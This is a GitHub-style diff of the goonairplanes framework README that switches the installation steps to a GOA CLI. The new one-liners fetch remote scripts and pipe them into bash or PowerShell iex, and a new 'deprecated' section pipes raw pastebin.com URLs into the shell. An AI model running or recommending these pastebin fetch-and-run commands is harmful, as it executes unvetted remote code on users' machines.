

Before and after one commit to goonairplanes/goonairplanes, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
new installation

````diff
--- a/README.md
+++ b/README.md
@@ -36,16 +36,33 @@ I created this framework after one too many late nights wrestling with Next.js f
 
 ## Get Flying in 60 Seconds
 
-### Option 1: Quick Install
+### Option 1: Use GOA CLI (Recommended)
+
+SETUP WIZARD DEPRECATED - Use the official GOA CLI tool from [GOA-Cli](https://github.com/kleeedolinux/goa-cli/tree/master) as the recommended method since you can do everything from creating new projects to managing configs and routes with the CLI.
 
 #### Linux/macOS:
 ```bash
-curl -fsSL https://raw.githubusercontent.com/kleeedolinux/goonairplanes/refs/heads/main/scripts/setup.sh | bash
+curl -sSL https://raw.githubusercontent.com/kleeedolinux/goa-cli/master/scripts/install.sh | bash
 ```
 
 #### Windows (PowerShell):
 ```powershell
-irm https://raw.githubusercontent.com/kleeedolinux/goonairplanes/refs/heads/main/scripts/setup.ps1 | iex
+iwr -useb https://raw.githubusercontent.com/kleeedolinux/goa-cli/master/scripts/install.ps1 | iex
+```
+
+#### Install (Deprecated)
+
+```bash
+curl -fsSL https://pastebin.com/raw/5aF76YBs | bash
+```
+
+```powershell
+irm https://pastebin.com/raw/dyzxs2cc | iex
+```
+
+Once installed, create a new project:
+```bash
+goa project new
 ```
 
 ### Option 2: Manual Setup
````
Also changed, not shown: docs/getting-started.md (+15 -2 lines).
